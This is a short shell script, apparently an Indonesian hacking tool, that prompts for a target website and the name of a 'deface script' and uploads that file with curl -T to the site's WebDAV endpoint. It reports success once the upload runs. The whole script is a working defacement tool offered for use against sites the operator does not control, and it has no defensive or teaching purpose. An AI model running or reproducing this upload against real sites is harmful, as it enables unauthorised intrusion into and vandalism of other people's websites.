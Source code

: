 # webdav
clear
cowsay -f eyes 'WEBDAV
# CREATE  : BARTES DWIKY
# TEAM    : Solo No Team
# CONTACT : HanzSolo404@GMAIL.COM' | lolcat


read -p " Website Target ==> " target
read -p " Nama sript Defacenya ==> " sc;
curl -T /storage/emulated/0/$sc $target
echo " [!] Suksess... "
